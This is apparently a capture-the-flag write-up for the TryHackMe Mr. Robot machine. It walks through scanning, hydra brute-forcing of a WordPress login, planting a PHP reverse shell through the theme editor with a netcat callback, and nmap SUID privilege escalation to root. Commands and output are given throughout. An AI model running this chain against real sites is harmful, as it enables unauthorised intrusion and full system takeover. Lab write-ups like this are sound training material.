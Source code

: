 # Mr. Robot CTF [TryHackMe]

<sup>This write-up covers the steps to root Mr. Robot CTF machine on TryHackMe platform.</sup>

First let's scan the target:

```bash
nmap -p- --script=vuln $targ3t -oN general.scan -vv
```

This is understandably going to take a while, but we already see open ports `80` and `443` pop up in the scan: 

```
Discovered open port 443/tcp on 10.10.48.148
Discovered open port 80/tcp on 10.10.48.148
```

This means this machine has a web interface. Let's check it out:

```bash
firefox $targ3t
```

There is a command interface that encourages the users to interact with it. 

![Homepage](screenshot.png "A command interface")

Before I play around with it, I'll put it through `feroxbuster` to see if it has anything hiding behind it:

```bash
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

We can see a number of very interesting directories and files:

```
200      GET        0l        0w   516314c http://10.10.48.148/admin/intro
200      GET        1l       14w       64c http://10.10.48.148/readme
200      GET        3l        4w       41c http://10.10.48.148/robots.txt
200      GET        3l        4w       41c http://10.10.48.148/robots
200      GET        0l        0w        0c http://10.10.48.148/sitemap.xml
200      GET        0l        0w        0c http://10.10.48.148/sitemap
200      GET        4l        5w       43c http://10.10.48.148/admin/robots.txt
200      GET        0l        0w 30178875c http://10.10.48.148/admin/robot
301      GET        7l       20w      234c http://10.10.48.148/video => http://10.10.48.148/video/
301      GET        7l       20w      237c http://10.10.48.148/wp-admin => http://10.10.48.148/wp-admin/
301      GET        7l       20w      239c http://10.10.48.148/wp-content => http://10.10.48.148/wp-content/
301      GET        7l       20w      240c http://10.10.48.148/wp-includes => http://10.10.48.148/wp-includes/
```

Once we navigate to `$targ3t/robots` we can see the following contents:

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

The last line seems pretty self-explanatory to me. No?

```
firefox $targ3t/key-1-of-3.txt
```

And we got the first key! Now on to the Line 2:

```
firefox $targ3t/fsocity.dic
```

Seems like some sort of a dictionary. Could be usernames or passwords. Why not use it as both? There seems to be a `/wp-login` path we could try to log into. First, let's download the dictionary:

```
wget $targ3t/fsocity.dic
```

Now let's fire up burp suite! Go to Proxy, tap **Open Browser**, turn off **Intercept** goto `http://$targ3t/wp-login`, turn **Intercept** back on. Try to login with `admin:admin` credentials. This is what Burp will intercept:

```
POST /wp-login.php HTTP/1.1
Host: 10.10.22.82
Content-Length: 100
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://10.10.22.82
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.22.82/wp-login
Accept-Encoding: gzip, deflate, br
Cookie: wordpress_test_cookie=WP+Cookie+check
Connection: keep-alive

log=admin&pwd=admin&wp-submit=Log+In&redirect_to=http%3A%2F%2F10.10.22.82%2Fwp-admin%2F&testcookie=1
```

The last line is what's important, we can use it with hydra and the dictionary we downloaded, to spray a random password, like "admin" and check if the error message changes at any usernames:

```bash
hydra -L fsocity.dic -p admin $targ3t http-post-form "/wp-login:log=^USER^&pwd=^PASS^:F=Invalid username" -t 4
```

We got a result soon enough:

```
[80][http-post-form] host: 10.10.22.82   login: Elliot   password: admin
```

The error message for this login:password pair is:

```
The password you entered for the username Elliot is incorrect.
```

Now, we can use this username to brute force it with the same list as password list:

```
hydra -l Elliot -P fsocity.dic $targ3t http-post-form "/wp-login:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 4
```

And sure enough we have a result:

```
[80][http-post-form] host: 10.10.22.82   login: Elliot   password: ER28-0652
```

Let's try to log in on `/wp-login`. And we're in. The Wordpress dashboard has an Appearance section on the left and in the Editor subsection we can make changes to the website. Let's try to plant a reverse shell. I'll use [this one](https://raw.githubusercontent.com/ivan-sincek/php-reverse-shell/refs/heads/master/src/reverse/php_reverse_shell.php) for this assignment.

I modified the index page, added this PHP code to it, started a `netcat` listener and ran this homepage address in the browser. This returned a shell:

```
listening on [any] 9233 ...
connect to [10.14.99.123] from (UNKNOWN) [10.10.22.82] 37547
Linux linux 3.13.0-55-generic #94-Ubuntu SMP Thu Jun 18 00:27:10 UTC 2015 x86_64 x86_64 x86_64 GNU/Linux
 11:38:50 up 54 min,  0 users,  load average: 0.00, 0.10, 0.13
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1(daemon) gid=1(daemon) groups=1(daemon)
/bin/sh: 0: can't access tty; job control turned off
$
```

Let's stabilize the shell:

```
python -c 'import pty;pty.spawn("/bin/bash")'
whoami
```

Seems like we are `daemon`, let's see if we can escalate some privileges:

```
find / -perm /4000 2>/dev/null
```

One of the binaries listed is `nmap`. We can escalate privileges using it the following way:

```
daemon@linux:/$ /usr/local/bin/nmap --interactive
/usr/local/bin/nmap --interactive

Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
# whoami
whoami
root
#
```

Now, let't find two remaining keys!

```bash
find / -type f -name key-2-of-3.txt 2>/dev/null
cat /home/robot/key-2-of-3.txt
```

```bash
find / -type f -name key-3-of-3.txt 2>/dev/null
cat /root/key-3-of-3.txt
```

Bye!
